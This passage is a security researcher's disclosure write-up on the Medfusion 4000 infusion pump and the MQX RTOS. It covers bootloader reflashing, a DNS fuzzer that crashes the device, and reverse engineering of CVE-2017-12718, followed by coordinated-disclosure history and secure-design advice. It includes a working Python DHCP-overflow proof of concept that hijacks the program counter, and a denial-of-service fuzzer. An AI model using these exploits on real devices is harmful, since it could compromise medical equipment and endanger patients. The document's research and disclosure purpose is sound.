Remember the `flash_coldfire` command? We can reverse engineer the handler and discover that it takes a raw binary and writes it to Coldfire flash via manipulating specific registers. Unfortunately, this file does not have any sort of header information or checksums. It is quite risky, but let us modify a string in the bootloader binary, upload it to the device via FTP, then call `flash_coldfire` with the file as the parameter. This has the potential to irrecoverably brick our device. Recovery would most likely only be possible with JTAG or BDM tools which were unavailable due to cost constraints.

```
4000> flash_coldfire BMOD.BIN
Flashing...
Flash Complete
```

After resetting the device, the serial port prints out the following:

```
We're in the bootloader! That certainly isn't good.....
===========  Booting Informatics 4000 Base  ===========

Version:      1.0
Build Number: 27742
Built:        Wed Feb 10 10:50:52 2010

Software reset


Serial Number is           ********
Ethernet MAC Address is    **:**:**:**:**:**
Radio MAC Address is       **:**:**:**:**:**
Bootloader version is      1.0-27742

4000 Base Application Present
Loading Application 2 into SDRAM…
```

We now control the bootloader.

## Head Firmware Control

I will not detail how to modify the Head/therapy module firmware, but as shown below, it is possible.



## Modeling the System

There now exists a basic framework for building and testing our own code on the device. Let us take a step back and model what we know about the system.

### More Threat Models



We will take a few liberties with the threat modeling process here as we are doing it in reverse with extraordinarily limited knowledge of the system. Still, it gives us a decent understanding of the attack surface. A first critical trust boundary is between the outside world and the system. Another is between the base and the head. Considering we can reflash the head firmware and the bootloader once we have code execution on the base, the actual trust boundary appears to be between the outside world and the rest of the system.

We could [STRIDE](https://msdn.microsoft.com/en-us/library/ee823878(v=cs.20).aspx) this if we wanted to, but as we are just going to look for elevation of privilege issues anyway, we can skip that. Our diagram only has a few options for generic data transfer going to and from the system remotely, so let us go ahead and create a quick attack tree detailing those and some of the attacks we already know work.



We will need to start fuzzing the few interfaces that are exposed remotely. Another important interface I didn't mention in the threat model was the Wi-Fi chipset and driver. This is yet another subsystem with its own software stack that could have its own flaws. Bugs in the driver could be extremely dangerous, but evaluating the head and base is enough work already.

FTP/Telnet are not enabled by default, so unless we find a way to re-enable them without physical access, spending time fuzzing these protocols is not ideal. That leaves us with the custom MDS functionality as well as DNS and DHCP. Normally fuzzing DNS and DHCP is not going to be the best use of time when dealing with common operating systems, but since this is the relatively obscure (to the security research community) MQX, it may prove interesting to investigate. If those attempts do not work, we can look into MDS more or the 3210 port we scanner earlier.

## Vulnerability Research

Now we will start targeting the remote services we previously identified. DNS first, then DHCP. We can try reverse engineering the code and looking for flaws in the logic or just blindly fuzzing the services. Both require some time and effort unless you have a collection of protocol fuzzers already built up.

### Fuzzing DNS

DNS is the easiest protocol to start with. We will need a way to dump out stack trace information during a crash, but we will get that issue solved here shortly.

Here is one of the most trivial DNS fuzzers we can write:

```python
import socket
import os

UDP_IP = "192.168.100.151"
UDP_PORT = 53

sock = socket.socket(socket.AF_INET,
                     socket.SOCK_DGRAM)
sock.bind((UDP_IP, UDP_PORT))

while True:
    data, addr = sock.recvfrom(1024)
    packet = str(data[0]) + str(data[1]) + b"\x81\x80" + os.urandom(128)
    sock.sendto(packet, addr)
```

We simply wait for a DNS request and then send back random data. The only trick that required a bit of reverse engineering is that we have to mirror the transaction ID or else the DNS resolver will throw out the packet instead of processing it. After we send a random packet or two, we will quickly see the serial port dump out the following before the device reboots:

```
*** EXCEPTION OCCURRED ON BASE ***
Exception Event:
        Time                    :
Time: 1970-01-01T00:00:00+00:00
        Task Name               : DNS Resolver
        MQX Task ID             : 0x00010011
        Vector #                : 0x00000008
        Offset                  : 0x00000002
        Interrupt nesting level : 1
        Status Register         : 0x2004
        Program Counter         : 0x31099246
        Task Error Code         : 0x00000000
        Task Flags              : 0x00000000
        Registers :
                 D0: 0x000002e8 D1: 0x00000000 D2: 0x00000000
                 D3: 0x65b426a4 D4: 0x00000000 D5: 0x0000000a
                 D6: 0x41002600 D7: 0x31077562
                 A0: 0x00000000 A1: 0x32002c12 A2: 0x32002c12
                 A3: 0x310992c8 A4: 0x3171060f A5: 0x00000003
                 A6: 0x000002e8
```

I did not expect that to work and was just starting from scratch on DNS fuzzer development. We also now know that we will not have to implement any form of debugging hooks to dump out exceptions as the system handily prints them out for us.

I evaluated the above crash and it just appears to be an out-of-bounds read that leads to an exception. The `ANCOUNT` field in the DNS response often gets set to a large value, the device appears to trust it, then it tries to parse that much data. The field is 16-bits so we can force the processor to overrun the end of the buffer by quite a bit.

It did not appear to be exploitable for code execution, but is a useful denial of service attack as we can now reboot the base whenever it connects to us and queries DNS.

Generating a crash this quickly against a device is a good sign it will have more issues.

### DHCP

Before I started writing a DHCP fuzzer, I evaluated a few of the `memcpy` operations I found in the DHCP server assembly, as `memcpy` is commonly a source of memory corruption issues. The DHCP client only had a few calls to the function, so it was quick to evaluate them. Here is a marked-up version:

```Assembly
server_name:                            ; CODE XREF: dhcpc_offer_lease_proc+136
                move.l  option_length,8(sp)
                movea.l a4,a0
                lea     256(a0),a0
                move.l  a0,4(sp)
                move.l  a5,(sp)
                jsr     memcopy_r       ; memcpy_r(void* src, void* dest, size_t len);
                adda.l  option_length,a5
                bra.s   loc_3109818A
; ---------------------------------------------------------------------------

boot_filename:                          ; CODE XREF: dhcpc_offer_lease_proc+140
                move.l  option_length,8(sp)
                lea     320(a4),a0
                move.l  a0,4(sp)
                move.l  a5,(sp)
                jsr     memcopy_r       ; memcpy_r(void* src, void* dest, size_t len);
                adda.l  option_length,a5
                bra.s   loc_3109818A
; ---------------------------------------------------------------------------
```

These `memcpy`s occur in the option handling code that runs right after a socket read pulls in the DHCP packet. It copies up to one byte in length of data to an offset, 256 and 320 bytes into the same buffer. This is interesting as it appears that the `server_name` buffer is only 64 bytes long (320 - 256). If that is the case, we can specify a `server_name` field of `0xFF` bytes and overflow past `server_name` into `boot_filename`. That in itself is not useful, but if `boot_filename` is also 64 bytes long then we could potentially overflow 191 bytes past the end of it into unknown space.

To figure out a rough size of the `boot_filename` buffer, I had to locate another function in the DHCP server that looked like it was initializing the DHCP buffer/structure.

```Assembly
move.l  8(a4),(a5)
move.l  8(a4),688(a5)
movea.l (a5),a0
clr.l   144(a0)
movea.l (a5),a0
move.l  a5,148(a0)
movea.l $18(a4),a0
move.l  (a0),556(a5)
movea.l $18(a4),a0
move.l  4(a0),560(a5)
movea.l $18(a4),a0
move.l  $C(a0),564(a5)
movea.l $18(a4),a0
move.l  $10(a0),568(a5)
move.l  $C(a4),552(a5)
lea     748(a5),a0
move.l  a0,$10(a5)
move.l  d0,544(a5)
lea     ($31097868).l,a0
move.l  a0,468(a5)
move.l  a5,472(a5)
lea     ($31097D04).l,a0
move.l  a0,452(a5)
move.l  a5,456(a5)
lea     ($31097D94).l,a0
move.l  a0,484(a5)
move.l  a5,488(a5)
```

This function chunk appears to set the defaults of many DHCP fields. It was just a guess at this point if it was operating on the same structure as in the DHCP options processing code but it did appear to be in the same subsystem. We know that we can potentially write the `boot_filename` buffer from 320 to (320 + 255) = offset 575. The offsets above are in that range, notably the lea operations loading the `$3109XXXX` addresses into specific buffers. Those are function pointers. Hence, if this is a true buffer overflow, we did not miss a check that would prevent this earlier, we are indeed looking at the correct structure processing code and offsets, and the function pointers get called after the overflow, we could potentially get code execution. A lot of if's.

Let us check that the system does not throw out large TLVs. We know it does not check for a maximum size of 64 for the `server_name` field, but maybe there is something before it. Walk backwards to the prologue of the function before it jumped off to the specific TLV option processing code.

```Assembly
subq.l  #1,packet_length
moveq   #0,option
move.b  (a5)+,option    ; a5 buffer ptr?
cmpi.l  #$FF,option     ; end
beq.w   exit
tst.l   option
beq.w   loc_3109818A
tst.l   packet_length
beq.w   exit
moveq   #0,option_length
move.b  (a5)+,option_length
subq.l  #1,packet_length
cmp.l   option_length,packet_length
bcs.w   exit
sub.l   option_length,packet_length
cmpi.l  #59,option
bgt.s   to_memcpy_r
cmpi.l  #58,option
blt.s   loc_310980E4
cmpi.l  #58,option
beq.w   renewal_time
cmpi.l  #59,option
beq.w   rebinding_time
bra.w   loc_31098188
```

A check is done to ensure that packet length is not less than the option length. After that, the system checks for the `boot_filename` and `server_name` DHCP option values then directly branches to the `memcpy` using the attacker-specified DHCP option size. If all of our assumptions are correct, we might have something here. Send a quick forged DHCP packet and observe the outcome.

#### DHCP Crash

After we send a hardcoded packet with a long `boot_filename` field filled with the value `0x41` (`A`), we crash.

```
*** EXCEPTION OCCURRED ON BASE ***
Exception Event:
        Time                    :
Time: 1970-01-01T00:00:00+00:00
        Task Name               : TCP/IP
        MQX Task ID             : 0x0001000d
        Vector #                : 0x0000000c
        Offset                  : 0x00000003
        Interrupt nesting level : 1
        Status Register         : 0x2000
        Program Counter         : 0x310a3a32
        Task Error Code         : 0x00001714
        Task Flags              : 0x00000000
        Registers :
                 D0: 0x00000032 D1: 0x00000032 D2: 0x00001eb8
                 D3: 0x0000000a D4: 0x316823cc D5: 0x310a383c
                 D6: 0x00000000 D7: 0x00002666
                 A0: 0x41414141 A1: 0x31682520 A2: 0x00000000
                 A3: 0x00000000 A4: 0x00000000 A5: 0x00000000
                 A6: 0x00000032
```

Register `A0` being `0x41414141` means we control that register. We need to disassemble the code at the program counter address and try to figure out why the system crashed.

At `0x310a3a32`, we have the following:

```Assembly
jsr     (a0)
```

...And we're done. The system is trying to jump to `A0`, which we now control. It contains an invalid address, hence the exception. I had expected to see `0x41414141` in the Program Counter if we truly had code execution, but was pleasantly surprised here.

Our buffer was filled with a bunch of `0x41`s, and we need the actual location of the four bytes to replace in order to redirect the program counter wherever we want. A simple trick for this is just filling the overflowing buffer with incrementing values. For example, instead of sending a string of `0x41`s, we send the following:

```
00 01 02 03 04 05 06 07 08 09 0a 0b 0c 0d 0e 0f 10 11 ... fc fd fe ff ff
```

After we run again, we crash here:

```
*** EXCEPTION OCCURRED ON BASE ***
Exception Event:
        Time                    :
Time: 1970-01-01T00:00:00+00:00
        Task Name               : TCP/IP
        MQX Task ID             : 0x0001000d
        Vector #                : 0x0000000c
        Offset                  : 0x00000003
        Interrupt nesting level : 1
        Status Register         : 0x2000
        Program Counter         : 0x310a3a32
        Task Error Code         : 0x00001714
        Task Flags              : 0x00000000
        Registers :
                 D0: 0x00000032 D1: 0x00000032 D2: 0x00001ed0
                 D3: 0x0000000a D4: 0x316823cc D5: 0x310a383c
                 D6: 0x00000000 D7: 0x00002684
                 A0: 0x94959697 A1: 0x31682520 A2: 0x00000000
                 A3: 0x00000000 A4: 0x00000000 A5: 0x00000000
                 A6: 0x00000032
```

`A0` is `0x94959697`. That tells us the exact offset we need to replace to control PC.

#### CVE-2017-12718

Let's now change `0x94959697` to a command line function on the system and see what happens. A good target is the reset function. If it works, the system should print "Software Reboot" and either reset or crash. Modify the DHCP script, plug in the address of reset, ensure the system is setup to query DHCP, then reboot it.

```
Welcome to the Medfusion 4000 Configuration Interface

password: (c)opyright 2004 Conexant
Configuring Wired Interface

Software Reboot:
```

The system comes up, probes for DHCP, receives the corrupted response, calls the reset function, then resets. The system doesn't even crash or exhibit signs of instability after executing our void reset function. The overflow most likely corrupts a function pointer that doesn't return anything.

Our final proof of concept for the exploit is below.

```python
#!/usr/bin/python3
"""PoC for MQX RTCS code execution via DHCP options overflow.

This is just a quick hack to prove the vulnerability and was designed to run
on a private network with the target device.
"""

import datetime
import socket

def main():
    """Use a default valid DHCP packet to overwrite an event function pointer."""
    execute_addr = 0xFFFFFFFF
    exploit_pkt = bytearray.fromhex(' \
                    02 01 06 00 a5 d3 0b 2f 00 00 80 00 00 00 00 00 \
                    ff ff ff ff ff ff ff ff 00 00 00 00 ff ff ff ff \
                    ff ff 00 00 00 00 00 00 00 00 00 00 00 00 00 00 \
                    00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 \
                    00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 \
                    00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 \
                    00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 \
                    00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 \
                    00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 \
                    00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 \
                    00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 \
                    00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 \
                    00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 \
                    00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 \
                    00 00 00 00 00 00 00 00 00 00 00 00 63 82 53 63 \
                    35 01 02 36 04 ff ff ff ff 01 04 ff ff ff 00 43 \
                    98 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 \
                    00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 \
                    00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 \
                    00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 \
                    00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 \
                    00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 \
                    00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 \
                    00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 \
                    00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 \
                    00 00 00 00 00 ff ff ff ff ff')

    exploit_pkt[0x195:0x199] = execute_addr.to_bytes(4, byteorder='big')

    recv_sock = socket.socket(socket.AF_INET, socket.SOCK_DGRAM)
    recv_sock.bind(('', 67))

    send_sock = socket.socket(socket.AF_INET, socket.SOCK_DGRAM)
    send_sock.bind(('', 68))

    send_sock.setsockopt(socket.SOL_SOCKET, socket.SO_REUSEADDR, 1)
    send_sock.setsockopt(socket.SOL_SOCKET, socket.SO_BROADCAST, 1)

    while True:
        print("{}: Waiting for DHCP packet...".format(datetime.datetime.now()))
        # Transaction IDs need to match else RTCS will throw out the packet.
        data = recv_sock.recvfrom(1024)[0]
        exploit_pkt[4:8] = data[4:8]
        send_sock.sendto(exploit_pkt, ('<broadcast>', 68))
        print("{}: Transmitted 0x{:X} PC redirection packet.".format(
            datetime.datetime.now(), execute_addr))

if __name__ == "__main__":
    main()
```

It's still unclear how big the `boot_filename` buffer is. An initial guess would be 64 bytes like the `server_name` buffer appears to be. If we manipulate the crash packet and increment the overflow by one byte at a time, the system does not actually crash until we overwrite bytes at an offset of 148 past the start of the boot_filename buffer. There were not any obvious writes to fields between 320 (where `boot_filename` data is written) until 452. Next logical guess is a 128-byte buffer size. That would place the range of valid data at [320,448). Code execution is at 468 (320 + 0x94) so this certainly seems close enough.

The final question is: why are we gaining execution by overwriting a word at offset 468? Recall the DHCP structure initialization function documented above:

```Assembly
lea     ($31097868).l,a0
move.l  a0,468(a5)
move.l  a5,472(a5)
lea     ($31097D04).l,a0
move.l  a0,452(a5)
move.l  a5,456(a5)
lea     ($31097D94).l,a0
move.l  a0,484(a5)
move.l  a5,488(a5)
```

The system is storing function pointers to these offsets. The system then calls us right after DHCP finishes processing the packet. These function pointers appear to be void functions and replacing them doesn't alter the system stability in any obvious way. This is a highly reliably and extremely trivial exploitation vector that requires no cleanup to prevent the system from going down after exploitation.



#### Better Exploitation

The next step for an attacker would be to stage position independent code and use the DHCP exploit to jump into it. There are several ways to accomplish this but the details are not going to be interesting on this system due to a lack of memory corruption mitigations. There is no form of ASLR and the stack is most likely executable.

#### Putting it All Together

An attacker with the ability to answer a DHCP request could potentially exploit the base system of any unpatched pump, persist via reflashing the bootloader, and use that as a springboard to attack or reflash the head system. There are numerous scenarios we could go through on how an attacker might do this using some of the other vulnerabilities detailed in this document, but these examples are not too consequential. What is important is updating the software on your infusion pumps.

There is still an impressive amount of attack surface left to investigate, but at this point I concluded this investigation. Remote code execution on the base as well as a toolset to reflash the bootloader, base, and head, is an excellent result.

### And One More Thing

See [CERT's VU#590639](https://www.kb.cert.org/vuls/id/590639). The DNS and DHCP flaws are in the MQX base RTOS, not Smith's Medical code.

"The NXP Semiconductors MQX RTOS prior to version 5.1 contains a buffer overflow in the DHCP client, which may lead to memory corruption allowing an attacker to execute arbitrary code, as well as an out of bounds read in the DNS client which may lead to a denial of service."

...

"A remote attacker sending crafted DHCP packets utilizing options 66 and 67 may gain control of the length passed to memcpy, which may allow overwriting memory with a function pointer and **privileged arbitrary code execution on all devices that have MQX RTCS networking support and DHCP enabled.**"

`nmap` doesn't seem to be able to fingerprint MQX devices at the moment, nor do any other known scanning tools. You can do a quick [Shodan](https://www.shodan.io/search?query=rtcs+OR+mqx) search and find a few different devices referencing MQX/RTCS via exposed Telnet/FTP/HTTP servers, but that is not a great signature. If you happen to know of any other networked MQX systems, please send me an e-mail (and probably also the manufacturer). I would be curious to learn what else it is running on. Wikipedia mentions there are millions of shipped MQX systems &mdash; many of these systems may need to be patched.

## What Could Have Been Done Differently?

Here is a brief list of suggestions that could help secure various embedded medical devices and may have prevented some of the issues on this pump and decreased the risk of attack.

* Threat Model your designs. Develop a [SDL](https://www.microsoft.com/en-us/sdl) if you do not already have one.
* Sign your firmware and updates. Verify signatures.
* Train your engineers in [secure coding practices](https://wiki.sei.cmu.edu/confluence/display/seccode/SEI+CERT+Coding+Standards) and other security concepts.
* Remove debug functionality and debug strings from release firmwares. What is the minimum amount of debug functionality needed to support field engineering? Do they really need as much as they claim they do? Find out!
* Minimize exception details: stack traces, registers, etc. On one hand, these are an incredible tool for investigating crashes. On the other hand, we just saw how useful they were. What is a good tradeoff?
* Use static analysis tools on your source code. Do not assume a third-party licensed operating system is bug free.
* Write code in memory safe languages, if possible.
* Use memory safety mitigations, i.e. ASLR, stack cookies, W^X.

OWASP has a new project that goes into detail on many of these. See [OWASP Embedded Application Security](https://www.owasp.org/index.php/OWASP_Embedded_Application_Security) for a little more detail.

## Conclusion

These flaws were coordinated with both CMU's CERT and DHS's ICS-CERT. NXP received notification on the vulnerability on the 19th of June, 2017 while Smiths was notified on the 21st after CERT/ICS-CERT helped me find an appropriate contact.

Smiths did not have any PGP infrastructure setup, so my solution ended up being mailing them the actual exploits and documentation via USPS Priority Mail Express. I encrypted the files included in the shipment and sent the password over e-mail. That led to some challenges in decrypting the package, but I am much happier with that outcome than blindly sending exploits unencrypted over the web.

I communicated a window of roughly 90 days for each of the vendors for full disclosure but ended up waiting until now (more than six months) to release details due to the sensitivity of the issue. Smiths coordinated release of [ICSMA-17-250-02A](https://ics-cert.us-cert.gov/advisories/ICSMA-17-250-02A) on September 7th, 2017. NXP asked for a bit of extra time and coordinated release for October 12th via [VU#590639](https://www.kb.cert.org/vuls/id/590639).

As of December 2017, Smiths Medical has a patch available for these issues. NXP is currently distributing a source code patch for the MQX flaw via e-mail and will officially release it in the next version of MQX. I evaluated the Smiths patch and, while I wasn't able to fully revisit all of the issues, it looked very good overall. The DHCP overflow is gone, the Wi-Fi connection issue appears to be removed, FTP looks to be locked down a bit better, a bunch of commands were removed from the Telnet shell, arbitrary bootloaders can no longer be flashed from the shell, and so on. There was one issue remaining, but the risk of it was mitigated in many ways and I assume they made the judgement call to keep that specific functionality in.

The pumps in my possession will be donated to a university that requested them for developing IoT security curriculum.

My sincerest thanks go to those I worked with at Smiths Medical, especially the engineers who inevitably had to work overtime to fix this; NXP and the MQX team for rapidly acknowledging the issues and working to fix them; ICS-CERT and CERT for guidance and support on the coordination process; and, especially, Chase, Michael, Brian C., Garret W., Bill, and Hans. Thank you to those that reviewed my document as well: Richard, Joe, Andrew, David, and others. Your feedback was invaluable.

If anyone is looking to collaborate on a project like this in the future, please let me know.

Questions, comments, suggestions? Contact me at <github.scott@gmail.com>.
